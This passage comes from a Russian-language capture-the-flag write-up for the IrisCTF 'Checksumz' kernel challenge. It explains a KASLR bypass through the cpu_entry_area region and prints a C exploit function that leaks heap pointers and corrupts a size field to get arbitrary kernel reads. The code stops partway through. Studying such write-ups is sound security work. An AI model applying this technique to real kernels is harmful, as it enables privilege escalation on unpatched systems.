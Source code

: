 Запустим и посмотрим на полученные адреса:

![](/assets/IrisCTF-Checksumz/Pasted%20image%2020250110010544.png)

Можно проверить в отладчике, но кажется, что всё должно было сработать верно.
Теперь надо понять как превратить это в примитив для получения KASLR. 

Для этого можно использовать технику  `cpu_entry_area`. Для данной версии ядра (6.10.10) она сработает, но в новых она запатчена. Смысл техники в двух словах: у вас есть постоянный адрес на рандомизируемый KASLR-ом на котором есть адреса ядра и таким образом можно обойти KASLR если есть чтение произвольного адреса. Подробнее про технику можно прочитать в интернете.

Данная область памяти находится по адресу `0xfffffe0000000000`. Но эффективные адреса лежат со смещения 4. Прочитаем их и восстановим адрес загрузки ядра. Допишем нашу функцию до конца:
```c
uint64_t try_break_kaslr(int fd) {
    if (fd == INVALID_FD) { 
        return -1;
    }

    uint8_t* buffer = (uint8_t*) calloc(BUF_SIZE, sizeof(uint8_t));
    read(fd, buffer, BUF_SIZE); // skip
    read(fd, buffer, BUF_SIZE - 1); // skip

    memset(buffer, 0x0, BUF_SIZE);
    read(fd, buffer, 256); // leak

    // get buffer->name pointer
    uint64_t leak_name = *(uint64_t*)(buffer + 17);
    printf("{+} heap leak name: 0x%llx\n", leak_name);

    // change size to 0xffffffffffffffff
    lseek(fd, (off_t)511, SEEK_SET);
    uint8_t write_buffer[16] = {0, 0xff,0xff,0xff,0xff,0xff,0xff,0xff,0xff, 0, 0, 0, 0, 0, 0, 0};
    write(fd, write_buffer, 16);
    
    uint64_t content_addr = 0x0;

    for (int i = 0; i < 0x1000000; i += 8) {
        char tmp_buf[8] = {0};
     
        lseek(fd, (off_t)512 + i, SEEK_SET);
        read(fd, tmp_buf, 8);
        if (!strncmp(tmp_buf, "default", 7)) {
            printf("off(+): 0x%llx\n", 512 + i);
            content_addr = leak_name - 512 - i;
            break;
        }

        lseek(fd, (off_t)0 - i, SEEK_SET);
        read(fd, tmp_buf, 8);
        if (!strncmp(tmp_buf, "default", 7)) {
            printf("off(-): 0x%llx\n", i);
            content_addr = leak_name + i;
            break;
        }
    }
    printf("{+} buffer->content: 0x%8lx\n", content_addr);

    uint64_t cpu_entry_area = 0xfffffe0000000004;
```